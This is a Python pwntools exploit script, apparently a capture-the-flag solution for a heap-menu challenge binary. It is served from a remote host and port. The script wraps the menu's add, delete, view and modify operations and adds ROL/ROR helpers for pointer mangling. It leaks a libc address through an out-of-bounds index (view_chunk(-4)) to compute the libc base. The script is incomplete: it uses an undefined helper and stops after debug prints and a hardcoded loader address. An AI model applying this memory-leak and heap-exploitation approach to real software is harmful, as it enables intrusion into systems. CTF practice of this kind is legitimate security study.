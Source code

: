 ```python
sa  = lambda x, y : p.sendafter(x, y)
sl  = lambda x    : p.sendline(x)
s   = lambda x    : p.send(x)
rvu = lambda x    : p.recvuntil(x)
rv  = lambda x    : p.recv(x)
rvl = lambda      : p.recvline()
li  = lambda x    : log.info(hex(x))

def add_chunk(size,data):
    sla(">> ","1")
    sla(": ",str(size).encode())
    sa(": ",data)


def del_chunk(idx):
    sla(">> ","2")
    sla(": ",str(idx).encode())

def view_chunk(idx):
    sla(">> ","4")
    sla(": ",str(idx).encode())

def modify_chunk(idx,data):
    sla(">> ","3")
    sla(": ",str(idx).encode())
    sa(": ",data)


def exit_pr():
    sla(">> ","5")

def ROL(data, shift, size=64):
    shift %= size
    remains = data >> (size - shift)
    body = (data << shift) - (remains << size )
    return (body + remains)
    

def ROR(data, shift, size=64):
    shift %= size
    body = data >> shift
    remains = (data << (size - shift)) - (body << size)
    return (body + remains)

if __name__ == "__main__":
    context(os='linux', arch='amd64', log_level='debug')
    chal_path = "./chall"
    libc_path = "./libc.so.6.local"
    nc_url = "nc 13.125.233.58 7331"
    exp=Exploit(chal_path,libc_path,nc_url)
    p = exp.p
    libc = exp.libc


    view_chunk(-4)
    print(rv(0x5))
    a=u64(rv(8))
    off = 0x21ca60
    libc_base = a-off
    rvu("1")
    print("test")
    print(a)
    ld_rw = 0x00007f737079c040
```
